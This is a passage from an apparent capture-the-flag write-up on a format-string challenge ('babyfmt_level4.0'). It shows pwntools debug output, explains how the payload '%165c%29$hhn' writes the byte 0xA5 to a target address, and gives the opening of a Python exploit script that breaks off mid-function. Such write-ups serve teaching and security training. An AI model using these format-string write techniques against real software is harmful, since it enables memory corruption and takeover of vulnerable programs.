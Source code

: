 **The result:**

```perl
[DEBUG] Received 0x11e bytes:
    b'\n'
    b'The win value in the .bss is located at 0x404170! Remember to write this in little endian in your format string.\n'
    b'Remember, you can swap %n with %lx to see what address you will be writing into to make sure you have the.correct offset.\n'
    b'\n'
    b'I will now read up to 256 bytes. Send your data!\n'
[*] Desired Value: 0xa5
[*] Win Address  : 0x404170
[*] Switching to interactive mode
```

##### **get_flag.py 2nd:**

The below variant of **get_flag.py** script, writing **win_value** at the specified address(**win_address**).

The **fmt** variable looks like this: `%165c%29$hhn`

>What does this do ?
>>`%165c%29$hhn` is a classic format-string write gadget:

>> **`%165c`** → prints a single character with a _minimum field width_ of 165.  
    That means `printf` outputs **165 bytes total** (164 spaces of padding + 1 character).  
    Net effect: the internal “characters printed so far” counter becomes **165** (`0xA5`).
    
>> -  **`%29$hhn`** → `%n`-family write using:
    
>> - `hhn` → write **only 1 byte** (low 8 bits) of the count to memory.
        
>> - `29$` → use the **29-th argument** as the _pointer destination_.  
        (In payload, arranged that the **29th argument is `win_address`**.)

Putting it together:

1. first place `win_address` somewhere in the argument list (so it sits at position 29 on the stack for `printf`).
    
2. `%165c` bumps the printed-chars count to **165**.
    
3. `%29$hhn` writes **`165 mod 256 = 0xA5`** into the **byte at `win_address`**.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or './babyfmt_level4.0')
context.log_level = 'debug'
#context.log_level = 'info'

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
b *func+445
continue
'''.format(**locals())

# -- Exploit goes here --

def get_win_address_and_value(text):
```